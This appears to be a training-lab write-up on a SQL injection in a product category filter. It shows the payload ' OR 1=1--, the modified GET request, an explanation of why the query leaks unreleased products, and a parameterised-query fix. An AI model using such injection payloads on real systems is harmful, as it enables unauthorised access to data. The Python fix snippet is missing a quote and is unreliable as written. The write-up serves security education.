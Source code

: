 # SQL Injection - WHERE clause vulnerability

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## Process

### 1. Intercept the GET request using Burp Suite
```http
GET /filter?category=Corporate+gifts HTTP/2
...
```

### 2. Modify the category parameter to inject SQL

**Injected payload:**

```sql
' OR 1=1--
```

Selecting injected sql and pressing "⌘U" in Burp Suite URL-encodes the selected portion of request.

**The GET request becomes:**

```http
GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2
```

### 3. Explanation

`' OR 1=1--` closes the string with `'` and creates a condition that always returns true, bypassing the `released = 1` clause. The `--` comments out the rest of the SQL query.

**The SQL query becomes:**

```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1--' AND released = 1
```

This query returns all products, including those that are unreleased.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**

Never build SQL statements by directly concatenating user input. 

Vulnerable SQL query:
```sql
SELECT * FROM products WHERE category = ' " + user_input + " ' AND released = 1"
```

Safe version using prepared statements (python script):
```py
query = SELECT * FROM products WHERE category = ? AND released = 1"
cursor.execute(query, (user_input,))
```
Parameterised query treats user input as data and not as part of SQL code, which prevents injection.

---

## Reflection

- Learnt how SQL injection can bypass filtering logic (like `released = 1`) by injecting always-true conditions.
- Understood the importance of using **prepared statements** to prevent such attacks.
- Learnt that even simple GET requests can expose vulnerabilities if inputs are not properly sanitized.
- Gained insight into secured filtering logic through **proper input handling**.

---

## Notes

The sequence `' --` can also be used to close the string and comment out the rest of the query, bypassing the released = 1 clause.

---